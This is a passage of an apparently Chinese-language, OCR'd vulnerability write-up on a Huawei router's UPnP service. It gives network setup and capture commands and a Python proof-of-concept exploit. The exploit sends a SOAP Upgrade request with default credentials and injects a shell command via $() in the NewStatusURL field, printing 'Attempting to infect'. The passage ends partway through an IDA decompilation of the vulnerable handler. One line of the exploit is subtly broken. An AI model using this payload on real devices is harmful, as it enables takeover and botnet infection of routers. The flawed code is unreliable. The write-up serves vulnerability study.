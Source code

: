 > ifconfig eth0 192.168.10.2/24 up
>
> ifconfig br0 192.168.10.11/24 up

这时按理说应该可以访问到web页面，但是我这里并不行

### 抓包分析

> tcpdump -i tap0 -w result.cap

PoC

```assembly
import threading, sys, time, random, socket, re, os, struct, array, requests
from requests.auth import HTTPDigestAuth

ip = str(sys.argv[1], "r")
cmd = "mkdir test" # Your MIPS
rm = "<?xml version=\"1.0\" ?>\n    <s:Envelope xmlns:s=\"http://schemas.xmlsoap.org/soap/envelope/\" s:encodingStyle=\"http://schemas.xmlsoap.org/soap/encoding/\">\n    <s:Body><u:Upgrade xmlns:u=\"urn:schemas-upnp-org:service:WANPPPConnection:1\">\n    <NewStatusURL>$(" + cmd + ")</NewStatusURL>\n<NewDownloadURL>$(echo HUAWEIUPNP)</NewDownloadURL>\n</u:Upgrade>\n    </s:Body>\n    </s:Envelope>"
 
class exploit(threading.Thread):
    def __init__ (self, ip):
        threading.Thread.__init__(self)
        self.ip = str(ip).rstrip('\n')
    def run(self):
        try:
            url = "http://" + self.ip + ":37215/ctrlt/DeviceUpgrade_1"
            requests.post(url, timeout=5, auth=HTTPDigestAuth('dslf-config', 'admin'), data=rm)
            print( "[SOAP] Attempting to infect " + self.ip)
        except Exception as e:
            print(e)

try:
    n = exploit(ip)
    n.start()
    time.sleep(0.03)
except:
    print('error')
```

### 漏洞分析

首先确定在哪个文件中

> grep -r ctrlt

拖入IDA7.7

```assembly
int __fastcall UpnpGetServiceByUrl(int a1, _DWORD *a2)
{
  int v4; // $s2
  int j; // $s0
  _DWORD *i; // $s1
  _DWORD *v7; // $v0
  char v9[64]; // [sp+20h] [-40h] BYREF

  if ( !a1 )
    return 0;
  if ( !strncmp(a1, "/ctrlt/", 7) )
  {
    v4 = a1 + 7;
    if ( a2 )
```